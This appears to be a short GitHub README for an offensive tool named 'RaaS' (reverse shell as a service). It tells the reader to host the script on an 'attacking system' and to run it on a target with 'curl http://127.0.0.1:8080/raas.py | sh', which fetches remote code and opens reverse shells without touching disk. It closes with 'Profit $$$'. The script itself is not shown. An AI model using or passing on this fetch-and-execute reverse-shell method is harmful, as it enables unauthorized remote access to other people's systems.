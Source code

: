 # RaaS
Reverse shell as a Service script that executes all the different reverse shells on Linux systems without touching disk on the target system.

# Usage
1. Change IP and PORT variables accordingly

2. Host the file on your attacking system

   $ python3 -m http.server 8080

3. Grab the file using curl and execute it directly

   $ curl http://127.0.0.1:8080/raas.py | sh

4. Profit $$$
